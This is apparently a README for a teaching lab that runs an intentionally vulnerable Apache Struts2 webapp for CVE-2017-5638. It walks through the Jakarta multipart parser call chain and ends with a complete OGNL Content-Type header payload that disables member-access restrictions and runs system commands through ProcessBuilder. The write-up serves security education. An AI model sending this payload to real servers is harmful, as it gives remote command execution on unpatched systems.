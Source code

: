 # Apache Struts2 Vulnerability | CVE-2017-5638 | Struts2 Version 2.5

## Instructions

To simply run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)
* Java 1.8
* the webapp boots on port 8080 by default (localhost:8080)

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

## The Breakdown (as viewed from my IDE)

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGLN expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OglnTextParser.class, which simply interprets the OGLN expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPartRequest.class parser method
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

The OGLN expression from the Content-Header is then passed into the 'parse' method.

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

During the parsing attempt, an exception is thrown as it is unable to parse the OGLN expression, and ends up in JakartaMultiPartRequest.class buildError method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The buildError method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class findText method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The LocalizedTextUtil.class findText method will in turn call getDefaultMessage and pass in the Content-Header information

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class translateVariables method delegates to the OglnTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGLN expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

### The Payload
The clever aspect of this vulernability is the exploitation of OGNL (Object Graph Navigation Library). OGNL uses expressions to perform tasks, and one of the expressions that is allowed is the ability to instantiate Objects from classes in the framework, and chaining commands. So for example, it is possible then to instantiate edu.uvu.ms.cybersecurity.Command object with OGNL '(#p=new edu.uvu.ms.cybersecurity.Command(#cmd))).'. Or, in a more practical sense, one can invoke the java.lang.ProcessBuilder class to run system level commands e.g. (#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

The following payload contains a command to invoke edu.uvu.ms.cybersecurity.Command and print the command issued to ther server out on the console, and then proceed to execute the command. (to illustrate chaining of events, and invoking classes)

Content-Type :  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}


A portion of this payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)
                      